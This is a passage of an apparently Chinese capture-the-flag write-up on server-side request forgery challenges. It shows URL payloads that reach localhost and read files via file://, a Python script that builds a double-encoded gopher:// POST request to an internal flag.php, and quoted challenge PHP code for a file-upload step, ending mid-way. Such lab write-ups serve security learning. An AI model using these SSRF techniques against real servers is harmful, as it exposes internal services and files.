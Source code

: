 

然后内网访问flag.php

```
?url=http://127.0.0.1/flag.php
```

只有一个输入框，查看源代码得到：

```html
<form action="/flag.php" method="post">
<input type="text" name="key">
<!-- Debug: key=188e4418652ea53ce446d65d57996a03-->
</form>
```

但是没有提交按钮，按题目意思自己构造post请求发到flag.php
构造gopher协议的payload：（不会gopher协议，偷一波脚本）

```python
import urllib.parse
payload =\
"""POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

key=188e4418652ea53ce446d65d57996a03
"""
#注意后面一定要有回车，回车结尾表示http请求结束
tmp = urllib.parse.quote(payload)
new = tmp.replace('%0A','%0D%0A')
result = 'gopher://127.0.0.1:80/'+'_'+new
result = urllib.parse.quote(result)
print(result)       # 这里因为是GET请求所以要进行两次url编码
```

然后拿生成的payload进行请求就行

![](https://i.loli.net/2021/09/14/kpqfcNPoWGJ4uXy.png)

### 上传文件

> 这次需要上传一个文件到flag.php了.祝你好运

还是file协议读源码，index同上题

```
?url=file:///var/www/html/flag.php
```

```php
<?php

error_reporting(0);

if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){
    echo "Just View From 127.0.0.1";
    return;
}

if(isset($_FILES["file"]) && $_FILES["file"]["size"] > 0){
    echo getenv("CTFHUB");
    exit;
}
?>

Upload Webshell
<form action="/flag.php" method="post" enctype="multipart/form-data">
```
